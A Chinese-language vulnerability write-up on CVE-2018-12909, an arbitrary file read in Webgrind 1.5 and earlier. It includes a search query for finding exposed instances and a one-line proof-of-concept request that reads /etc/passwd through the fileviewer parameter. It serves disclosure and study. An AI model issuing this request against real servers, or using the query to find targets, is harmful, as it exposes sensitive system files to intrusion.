 # Webgrind fileviewer.phtml 任意文件读取漏洞 CVE-2018-12909

## 漏洞描述

Webgrind是一套PHP执行时间分析工具。其中Webgrind 1.5版本中存在安全漏洞，该漏洞源于程序依靠用户输入来显示文件。攻击者可以通过漏洞读取服务器敏感文件

## 漏洞影响

```
Webgrind <= 1.5
```

## 网络测绘

```
app="Webgrind"
```

## 漏洞复现

主页面

![image-20220829102424295](./images/202208291024336.png)

方法调用在 index.php 中

![image-20220829102436964](./images/202208291024049.png)

当参数为 fileviewer 时，将参数传递包含在文件 templates/fileviewer.phtml 中

![image-20220829102450812](./images/202208291024892.png)

参数 file 传入 `fileviewer.phtml` 通过函数 `highlight_file` 显示在页面中， 验证POC

```
/index.php?op=fileviewer&file=/etc/passwd
```

![image-20220829102503956](./images/202208291025034.png)